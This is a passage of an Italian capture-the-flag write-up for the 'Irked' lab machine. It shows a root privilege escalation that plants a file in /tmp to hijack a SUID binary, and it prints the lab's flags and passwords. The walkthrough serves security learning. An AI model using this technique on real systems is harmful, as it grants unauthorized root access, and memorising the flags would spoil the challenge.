 Proviamo ad esegurilo per vedere cosa fa:
```bash
ircd@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-05-30 11:02 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:/usr/bin$
```

Sembra che sia in esecuzione un file /tmp/listusers, tuttavia il file non esiste. 
Poiché il bit SUID è impostato per questo file, verrà eseguito con il livello di privilegio che corrisponde all'utente che possiede il file. 
In questo caso, il file è di proprietà di root, quindi il file verrà eseguito con i privilegi di root.
È nella directory /tmp, a cui abbiamo accesso, quindi creiamo il file e facciamogli eseguire una shell bash.

```bash
ircd@irked:echo "bash" > /tmp/listusers
ircd@irked:/tmp$ chmod 777 listusers 
ircd@irked:/tmp$ cd ..
ircd@irked:/$ cd usr/bin/
ircd@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-05-30 11:02 (:0)
root@irked:/usr/bin# 
```

Flag users

```bash
root@irked:/home/djmardov# cat user.txt 
62cd991173129626216f829ebfbe50c9
```

Flag root

```bash
root@irked:/root# cat root.txt 
a2a05b9126e195301d18882f844c8fb4

root@irked:/root# cat pass.txt 
Kab6h+m+bbp2J:HG

```

# EXTRA CONTENT
```bash
root@irked:/home/djmardov/Documents# ls -la
total 12
drwxr-xr-x  2 djmardov djmardov 4096 Sep  5  2022 .
drwxr-xr-x 18 djmardov djmardov 4096 Sep  5  2022 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
lrwxrwxrwx  1 root     root       23 Sep  5  2022 user.txt -> /home/djmardov/user.txt

root@irked:/home/djmardov/Documents# cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
root@irked:/home/djmardov/Documents#
```
